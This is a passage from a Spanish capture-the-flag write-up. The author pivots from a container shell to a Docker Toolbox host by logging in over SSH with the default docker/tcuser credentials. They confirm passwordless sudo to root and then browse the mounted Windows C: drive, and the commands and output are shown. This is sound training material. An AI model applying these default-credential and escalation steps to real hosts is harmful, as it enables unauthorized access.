 Ahí nos dicen que tiene las siguientes credenciales:
* user: *docker*
* passwd: *tcuser*

Vamos a usar estas credenciales para loguearnos al servicio **SSH** desde donde estamos:
```bash
postgres@bc56e3cc55e9:/home/tony$ ssh docker@172.17.0.1
docker@172.17.0.1's password: 
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ whoami
docker
```

Muy bien, si usamos el comando **ifconfig**, verás la diferencia de la aplicación en la que estamos:
```bash
docker@box:~$ ifconfig                               
docker0   Link encap:Ethernet  HWaddr 02:42:EB:C9:47:65  
          inet addr:172.17.0.1  Bcast:172.17.255.255  Mask:255.255.0.0
          inet6 addr: fe80::42:ebff:fec9:4765/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3953 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4513 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:3500230 (3.3 MiB)  TX bytes:445705 (435.2 KiB)
...
...
...
...
```

Puedes verificar tus privilegios y verás que podemos usar cualquier comando de **Root**:
```bash
docker@box:~$ sudo -l                                
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
```

Entonces, quiero pensar que ya somos **Root** o estamos en la máquina principal de **Windows**, no lo sé, hay que enumerar un poco a ver que encontramos.

Enumerando la raíz, encontramos un directorio curioso, llamado **c**:
```bash
docker@box:~$ cd /                                                             
cd /
docker@box:/$ ls                                                               
ls
bin           home          linuxrc       root          sys
c             init          mnt           run           tmp
dev           lib           opt           sbin          usr
etc           lib64         proc          squashfs.tgz  var
docker@box:/$ cd c                                                             
cd c
docker@box:/c$ ls                                                              
ls
Users
docker@box:/c/Users$ ls                                                        
ls
Administrator  Default        Public         desktop.ini
All Users      Default User   Tony
```

